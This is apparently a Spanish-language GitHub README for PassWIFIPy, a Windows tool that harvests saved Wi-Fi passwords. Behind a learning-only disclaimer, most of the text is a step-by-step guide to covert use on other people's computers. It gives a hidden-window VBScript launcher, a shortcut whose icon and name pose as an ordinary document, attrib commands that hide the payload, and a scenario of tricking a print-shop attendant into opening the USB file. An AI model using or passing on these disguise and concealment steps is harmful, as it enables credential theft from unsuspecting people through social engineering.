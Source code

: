 #  PassWIFIPy 💻🔐📡

## ¿Qué es PassWIFIPy?  
PassWIFIPy es un script que captura todas las redes WIFI guardadas en el equipo.  
Hace un mapeo de estas redes para al final guardarlas en una carpeta con el  
hostname que tenga asignada la maquina.  

## **Atención**   ⚠️
El script y la explicación de cómo funciona es únicamente con propósitos de aprendizaje,  
no me hago responsable de los malos usos que puedan hacerse con esta herramienta.  

También es importante que sepas que fue desarrollado en un ambiente windows,  
por lo que no es compatible con otros sistemas operativos.  

## Inicio  
```bash
    $ pip install -r requirements.txt
    $ python index.py
```  

## Detalles a tener en cuenta 
- Se creo con la versión 3.10 de Python.  
- Se uso conda para no tener problemas con las versiones instaladas de Python   
    y su paquete pyinstaller.  

## Construyendo ejecutable  
```bash
    $ pyinstaller --onefile index.py
```   

## ¿Cómo usarlo? 🤔 

### Forma facil 😊: 
Teniendo el ejecutable puedes hacer la prueba en tu maquina o en la de alguien más con su permiso.  
Tan solo da doble click y este va empezar a escanear las redes wifi y guardarlas en la carpeta wifi-pwd.  

### Forma avanzada 🛠️💻:
Una vez teniendo el EXE, puedes crear un archivo autorun.inf y asignarle el   
ejecutable para que inicie automáticamente con la unidad USB.  

Claro esto solo va funcionar si tiene habilitado el modo de autorun en el
equipo.   

Si no es así podrías hacer lo siguiente:   

## **index.vbs**  
```vbscript
    Set WshShell = CreateObject("WScript.Shell")
    WshShell.Run chr(34) & "index.exe" & Chr(34), 0
    WshShell.Run chr(34) & "DISCLETTER:\ROOT\FILE.EXTENSION" & Chr(34), 0
    Set WshShell = Nothing 
```   
Con este script podrás iniciar el ejecutable sin mostrar la ventana de la consola,  
solo tienes que copiar el nombre del archivo exe y este se encargará de iniciarlo.  

Puedes definir una segunda ruta con el archivo que quieres que se ejecute después.  

**¿Para qué?**    

Bueno veamos un posible caso, podrías estar en un chat o papelería y pedirle  
al encargado que te imprima un archivo de word, una foto, una nota, etc.  
Cualquier tipo de archivo siempre y cuando se pueda abrir en su equipo.  

Guiándonos por este caso podemos ya tener un archivo preparado, como un pdf,  
un word, una foto, etc.  

Entonces aquí es donde entra en juego nuestra segunda línea de comando en  
el archivo index.vbs.  

```vbscript
    WshShell.Run chr(34) & "DISCLETTER:\ROOT\FILE.EXTENSION" & Chr(34), 0
```  
Dentro de las comillas estará la ruta del archivo que quieres abrir.  

Seguido de esto procedemos a crear el acceso directo de nuestro script de vbs.  

![](./img/createldk.png)  

**Cambiar el icono y nombre de tu acceso directo**  

En este paso según sea el tipo de archivo que quieras abrir, si así lo prefieres, tendrás que cambiar  
el icono para que tenga relación con lo que creaste.   
Esto lo vas a hacer accediendo a la ruta del ejecutable para tomar su icono y   
entre los que estén disponibles escoger el que más se parezca.  

![](./img/changeIcon.png)  
![](./img/chicon.png)  

Asegúrate de darle el mismo nombre que el verdadero archivo que vas a ejecutar, (este no debe tener acentos)  
para que se ejecute correctamente. Al terminar muévelo a la ruta inicial de tu usb, si gustas puedes dejarlo  
dentro de otras carpetas, el acceso directo que se acaba de crear ya tendrá esta misma ruta donde se encuentra, 
el script de vbs junto con el exe.  


![](./img/fldk.png)  

**Recuerda**  

El archivo que creaste debe estar en este pedazo de código, dentro de las comillas.


```vbscript
    WshShell.Run chr(34) & "DISCLETTER:\ROOT\FILE.EXTENSION" & Chr(34), 0
```  
Si ya lo tienes todo preperado, abre una terminal dentro de la unidad USB  
y ejecuta los siguientes comandos:

```bash
    $ attrib +h +s tuarchivo.extension (el archivo que creaste) 
    $ attrib +h +s tuCarpeta/archivosWifi.txt (carpeta que contendrá los archivos de las redes WIFI encontradas y los ejeutables) 
```  

![](./img/alonefile.png)  

Esto va ocultar los archivos que seleccionaste, para que de este modo no puedan ser vistos o encontrados.  
Acá puedes tener el acceso directo desde el inicio o desde la carpeta que quieras.  Realmente no importa, ya    
que tiene la ruta donde está el verdadero ejecutable de todo.  

Si lo hiciste bien, al dar doble click en el acceso directo se ejecutará el exe y empezará a capturar las redes WIFI  
que hay en el equipo, y se abrirá tu archivo mientras este proceso sigue, guardando así cada red que encuentre  
en una carpeta con el hostname de la maquina y los txt de las redes.

---  

## Ver las redes ya capturadas  

```bash
    $ attrib -h -s tuCarpeta/archivosWifi.txt (carpeta que contendrá los archivos de las redes WIFI encontradas y los ejecutables) 
```  

Como resultado de esto tendrás de nuevo lo que ocultaste y dentro de esto la carpeta wifi-pwd la cual contendrá las carpetas   
de las maquinas con las redes WIFI encontradas.

![](./img/wifi_pwd.png)  
![](./img/hostnamefolder.png)  
![](./img/txtwifi.png)  
